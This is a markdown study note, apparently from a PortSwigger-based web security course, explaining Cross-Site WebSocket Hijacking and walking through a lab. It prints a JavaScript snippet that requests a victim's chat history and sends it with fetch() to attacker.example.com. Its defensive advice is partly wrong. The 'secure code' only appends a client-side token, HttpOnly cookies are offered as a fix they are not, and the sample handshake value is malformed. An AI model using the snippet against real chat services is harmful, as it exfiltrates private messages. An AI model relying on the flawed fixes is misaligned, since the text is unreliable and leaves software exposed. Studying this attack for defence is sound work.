




## Introduction to WebSockets Vulnerabilities

WebSockets provide a full-duplex communication channel over a single, long-lived connection. This allows for real-time data exchange between the client and the server, making it ideal for applications such as live chat, online gaming, and collaborative editing tools. However, this powerful feature also introduces new security vulnerabilities, particularly Cross-Site WebSocket Hijacking (CSWH).

### What is Cross-Site WebSocket Hijacking (CSWH)?

Cross-Site WebSocket Hijacking is an attack where an attacker exploits a user's existing WebSocket connection to perform unauthorized actions. This can lead to sensitive data exfiltration, such as chat histories, and potentially gain access to the user's account.

### Why Does CSWH Matter?

CSWH matters because it can compromise the integrity and confidentiality of real-time communications. Unlike traditional Cross-Site Scripting (XSS) attacks, which require the attacker to inject malicious scripts, CSWH leverages the existing WebSocket connection to perform actions on behalf of the user.

### How Does CSWH Work?

To understand CSWH, let's break down the steps involved:

1. **Establishment of WebSocket Connection**: A user establishes a WebSocket connection with a server.
2. **Attacker's Exploit**: The attacker tricks the user into visiting a malicious website that contains JavaScript to open a WebSocket connection to the same server.
3. **Exploitation**: The malicious script uses the existing WebSocket connection to send commands or retrieve data.

### Real-World Example

A real-world example of CSWH was observed in a chat application where users could establish WebSocket connections to exchange messages. An attacker crafted a malicious webpage that opened a WebSocket connection to the same server, allowing them to read and send messages on behalf of the user.

### Prevention and Defense

#### How to Prevent / Defend Against CSWH

1. **Use Secure Cookies**: Ensure that cookies used for authentication are marked with the `HttpOnly` and `Secure` flags to prevent them from being accessed via JavaScript.
2. **Origin Validation**: Implement origin validation on the server-side to ensure that WebSocket connections are initiated from trusted origins.
3. **Token-Based Authentication**: Use token-based authentication mechanisms like JWT (JSON Web Tokens) to authenticate WebSocket connections.
4. **Regular Audits**: Regularly audit WebSocket implementations to identify and mitigate potential vulnerabilities.

### Detailed Explanation of the Lab Setup

In this lab, we will demonstrate a CSWH attack using a live chat application. The goal is to exfiltrate the victim's chat history and potentially gain access to their account.

#### Lab Environment

The lab environment consists of a live chat application hosted on a server. The application uses WebSockets to enable real-time communication between users. The attacker's goal is to exploit the WebSocket connection to steal chat history and gain unauthorized access.

### Step-by-Step Walkthrough

#### Accessing the Lab

1. **Access the Lab**: Open the lab environment in Burp Suite's built-in browser. This ensures that all requests are intercepted by Burp Proxy.
2. **Click on Live Chat**: Navigate to the live chat feature of the application. This will initiate a WebSocket connection to the server.



#### Analyzing the WebSocket Connection

1. **Inspect WebSocket Traffic**: Use Burp Suite to inspect the WebSocket traffic. This will help identify the structure of the WebSocket messages and the endpoints used by the application.



### Exploiting the WebSocket Connection

#### Using Burp Collaborator

1. **Burp Collaborator Setup**: Configure Burp Collaborator to monitor for incoming WebSocket connections. This will help in identifying the attacker's actions.



#### Crafting the Malicious Script

1. **Craft the Malicious Script**: Create a JavaScript snippet that opens a WebSocket connection to the same server and sends commands to exfiltrate chat history.

```javascript
// Malicious Script
var ws = new WebSocket('wss://chat.example.com');
ws.onopen = function() {
    ws.send('GET_CHAT_HISTORY');
};
ws.onmessage = function(event) {
    var data = event.data;
    // Send data to attacker's server
    fetch('https://attacker.example.com/log', {
        method: 'POST',
        body: data
    });
};
```

### Full HTTP Request and Response

#### WebSocket Connection Request

```http
GET wss://chat.example.com HTTP/1.1
Host: chat.example.com
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Sec-WebSocket-Version: 13
Origin: https://chat.example.com
```

#### WebSocket Connection Response

```http
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: s3pPLMBiTxaQ9kYGzzhZRbWXPNGu
```

### Exfiltrating Chat History

1. **Exfiltrate Chat History**: Once the WebSocket connection is established, the attacker can send commands to retrieve the chat history and send it to their server.



### Secure Coding Fixes

#### Vulnerable Code

```javascript
// Vulnerable Code
var ws = new WebSocket('wss://chat.example.com');
ws.onopen = function() {
    ws.send('GET_CHAT_HISTORY');
};
```

#### Secure Code

```javascript
// Secure Code
var ws = new WebSocket('wss://chat.example.com');
ws.onopen = function() {
    var token = getAuthenticationToken();
    ws.send('GET_CHAT_HISTORY ' + token);
};
```

### Detection and Mitigation

#### Detection

1. **Monitor WebSocket Traffic**: Use tools like Burp Suite to monitor WebSocket traffic for suspicious activity.
2. **Log WebSocket Connections**: Log all WebSocket connections and review logs for unusual patterns.

#### Mitigation

1. **Implement Origin Validation**: Ensure that WebSocket connections are initiated from trusted origins.
2. **Use Token-Based Authentication**: Use tokens to authenticate WebSocket connections and validate them on the server-side.

### Hands-On Labs

For hands-on practice, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive set of labs covering various web security topics, including WebSockets vulnerabilities.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities for educational purposes.

By thoroughly understanding and practicing these concepts, you can effectively prevent and defend against Cross-Site WebSocket Hijacking attacks.

---
<!-- nav -->
[[Web Security (PortSwigger)/14-WebSockets Vulnerabilities/03-Lab 3 Cross site WebSocket hijacking/00-Overview|Overview]] | [[02-Introduction to WebSockets and Their Role in Modern Web Applications|Introduction to WebSockets and Their Role in Modern Web Applications]]
